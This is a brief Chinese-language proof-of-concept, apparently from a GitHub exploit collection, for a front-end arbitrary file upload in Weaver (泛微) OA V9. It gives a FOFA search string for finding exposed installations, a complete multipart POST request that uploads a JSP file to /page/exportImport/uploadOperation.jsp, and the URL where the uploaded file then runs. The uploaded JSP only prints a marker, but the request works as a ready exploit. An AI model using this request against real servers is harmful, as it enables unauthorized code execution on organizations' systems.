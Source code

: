 # 泛微OA V9 前台文件上传

## 漏洞描述

漏洞位于: `/page/exportImport/uploadOperation.jsp`文件中

## FOFA

```
app="Weaver-OA"
```

## 漏洞POC

```
POST /page/exportImport/uploadOperation.jsp HTTP/1.1
Host: x.x.x.x
Content-Length: 216
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://x.x.x.x/
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFy3iNVBftjP6IOwo
Connection: close

------WebKitFormBoundaryFy3iNVBftjP6IOwo
Content-Disposition: form-data; name="file"; filename="1.jsp"
Content-Type: application/octet-stream

<%out.print(1111);%>
------WebKitFormBoundaryFy3iNVBftjP6IOwo--
```

访问：

```
page/exportImport/fileTransfer/1.jsp
```

